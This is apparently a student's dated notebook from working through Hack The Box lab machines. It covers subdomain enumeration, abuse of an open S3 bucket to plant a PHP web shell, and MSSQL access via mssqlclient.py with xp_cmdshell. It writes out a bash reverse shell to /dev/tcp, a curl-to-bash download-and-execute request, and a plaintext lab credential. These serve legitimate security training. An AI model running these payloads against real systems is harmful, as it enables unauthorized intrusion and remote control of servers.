 ### 12.01.2024

Finding subdomains:
-> For some reason wfuzz is running mad slow on my PC, same wordlist work very fast with gobuster. Also
wfuzz do not even get the correct respons?
-> gobuster example: 

```
gobuster vhost -w ../../wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -u http://thetoppers.htb
```

also, when running gobuster, the -u [URL] needs to be after the -w [wordlist], its stupide, but the 
first one did not work for me. NOTE: Remember to use --append-domain.

### 13.01.2024
Working with AWS S3 buckets:
Apparently we can use the AWS CLI tool without having real credentials, 
sometimes they only check is there is a value there. I sett all of them to temp.

Lising the buckets we also need to spesify the endpoint, example:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls

or:

aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

  
### 14.01.2024
We have gained access to thetoppers.htb buckets, or the aws s3 service being hosted on the website.
I can see that there is nothing interessting information in it, but we we have the option to 
upload malicious files.

Getting a reverse shell:
```
<?php system($_GET["cmd"]); ?>
```

Uploading php shell file to the bucket. 
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

### 15-16.01.2024
Uploading a reverse shell to a Amazone S3 bucket:

From the .PHP script we build and uploaded yesterday we can execute commands via CMD on the server using:
```
http://thetoppers.htb/shell.php?cmd=[command]
```

Then we make a bash shell for us to get a reverse shell on the server(Why could we not just use the .php shell?). We the new shell creates a connection to our ip on port 1337.

```
#!/bin/bash

bash -i >& /dev/tcp/<IP>/1337 0>&1

```

-i: Launches interactive Bash shell.



And upload this new .sh shell to the server, we will be executing this via the .php shell. 

Setting up a http server running from my PC, in the directory i have saved the new .sh shell: 

```
python3 -m http.server 8000
```

This hosts a http service, listening for incoming connections on port 8000. When clients connect to the service when would gain access to all the file contained in the directory where the service is hosted. 

Then we set up a listener with netcat on the port we specified in the .sh script. (the -l specifies the listening mode)
```
nc -nvlp 1337
```


When executing this in the browser:
```
http://thetoppers.htb/shell.php?cmd=curl%2010.10.15.233:8000/shell.sh|bash
```

we create execute the .sh shell and create a connection to our 1337 port, letting us execute code on their server from our terminal:

![[Pasted image 20240116201856.png]]
![[Pasted image 20240116201913.png]]


### 17.01.2024
Hacking Archetype: 
Finding SMB service on port 445. An SMB service allows systems of the same network to share files and printers over TCP/IP. 

Can see that the box uses port 139 to host a netbios service, using this to host SMB.

We can use smbclient to list shares the SMB service.:
```
smbclient -L server_name_or_ip_address
```

Also, we can connect to a given share by:
```
smbclient //10.129.245.78/backups
```

And using basic commands as cd, ls and get, to navigate and download the interesting files. 

We also have a SQL service on the box, and we want to create an Authenticated connection to it, we can use:
```
mssqlclient.py
```


### 18.01.2024
To use the mssqlclient.py script we need to install some python packages, but due to dependencies with apt and pip packages, we should use a venv and install pip packages inside the venv. 

```
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt

deactivate
```

Then we could use mssqlclient.py from the venv. We have some credentials from the config file we found on the SMB. We use them to connect:  

```
python3 mssqlclient.py ARCHTYPE/sql_svc:M3g4c0rp123@10.129.112.34 -windows-auth
```


### 19.01.2024

.venv laying inside the repos/impacket folder. Cannot access it without being in this folder. 

We would like to spawn a windows command shell from within the sql server. The extended stored procedure we need is: xp_cmdshell. 

Spawning this we use the commands:
```
Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```


